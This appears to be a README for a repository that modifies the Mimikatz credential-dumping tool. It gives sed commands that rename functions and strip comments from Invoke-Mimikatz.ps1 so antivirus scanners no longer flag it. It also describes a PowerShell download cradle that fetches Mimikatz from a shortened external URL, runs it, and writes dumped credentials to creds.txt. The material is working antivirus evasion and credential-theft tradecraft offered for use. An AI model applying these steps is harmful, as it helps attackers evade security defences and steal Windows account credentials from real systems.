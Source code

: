 # Mimikatz

## Mi.ps1

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

<pre>
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
</pre>

At the end I renamed the file with:

<pre>
mv Invoke-Mimikatz.ps1 Mi.ps1
</pre>

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.

## MiLoading.ps1

Is a single command that can be run on powershell. It will pull a file from the internet containing Mimikatz and will execute it. The results will be printed into a txt file which will be opened by notepad. The commands was created by the Invoke-CradleCrafter (https://github.com/danielbohannon/Invoke-CradleCrafter). Another great tool to obfuscate the command and to execute Mimikatz on devices

<pre>
INPUTS:
Url: http://bit.ly/L3g1tCrad1e
Path: Default_File_Path.ps1
PostCradleCommand: Invoke-Mimikatz -DumpCr > creds.txt; notepad creds.txt
</pre>
